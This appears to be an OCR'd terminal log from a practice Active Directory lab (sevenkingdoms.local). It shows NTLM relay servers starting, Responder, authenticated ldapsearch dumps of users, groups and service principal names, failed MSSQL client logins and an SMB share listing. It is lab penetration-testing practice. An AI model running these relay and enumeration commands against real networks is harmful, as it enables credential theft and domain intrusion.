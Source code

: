 [*] Protocol Client DCSYNC loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client MSSQL loaded..
[*] Running in relay mode to hosts in targetfile
[*] Setting up SMB Server on port 445
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server on port 9389
[*] Setting up RAW Server on port 6666
[*] Multirelay enabled

[*] Servers started, waiting for connections
tail -f /usr/share/responder/logs/SMBv2-*.txt
exit
^C[1]+  Exit 127                responder -I eth0 -rdwv
tail: '/usr/share/responder/logs/SMBv2-*.txt' kann nicht zum Lesen geöffnet werden: Datei oder Verzeichnis nicht gefunden
tail: Keine Dateien mehr übrig
(myenv) root@tala-HP-255-15-6-inch-G10-Notebook-PC:~# # Mit gültigen Credentials vollständige LDAP-Dumps
ldapsearch -x -H ldap://192.168.20.11 -D "north\jon.snow" -w iknownothing -b "DC=north,DC=sevenkingdoms,DC=local" "(objectClass=*)" > ldap_north_complete.txt

# Spezifische Objekt-Klassen
ldapsearch -x -H ldap://192.168.20.11 -D "north\jon.snow" -w iknownothing -b "DC=north,DC=sevenkingdoms,DC=local" "(objectClass=user)" sAMAccountName userPrincipalName description > users_north.txt

ldapsearch -x -H ldap://192.168.20.11 -D "north\jon.snow" -w iknownothing -b "DC=north,DC=sevenkingdoms,DC=local" "(objectClass=group)" sAMAccountName member > groups_north.txt

# Service Principal Names mit Authentication
ldapsearch -x -H ldap://192.168.20.11 -D "north\jon.snow" -w iknownothing -b "DC=north,DC=sevenkingdoms,DC=local" "servicePrincipalName=*" servicePrincipalName sAMAccountName > spns_north.txt
(myenv) root@tala-HP-255-15-6-inch-G10-Notebook-PC:~# impacket-mssqlclient -windows-auth north.sevenkingdoms.local/sql_svc:cracked_password@192.168.20.22
impacket-mssqlclient: Befehl nicht gefunden.
(myenv) root@tala-HP-255-15-6-inch-G10-Notebook-PC:~# impacket-mssqlclient -windows-auth north.sevenkingdoms.local/sql_svc:cracked_password@192.168.20.22
impacket-mssqlclient: Befehl nicht gefunden.
(myenv) root@tala-HP-255-15-6-inch-G10-Notebook-PC:~# 


root@tala-HP-255-15-6-inch-G10-Notebook-PC:~/goatlab/recon# smbclient //192.168.20.11/NETLOGON -U jon.snow
Password for [WORKGROUP\jon.snow]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun Apr 13 19:13:32 2025
  ..                                  D        0  Sun Apr 13 19:13:32 2025
  script.ps1                          A      165  Sun Apr 13 19:13:29 2025
  secret.ps1                          A      869  Sun Apr 13 19:13:31 2025
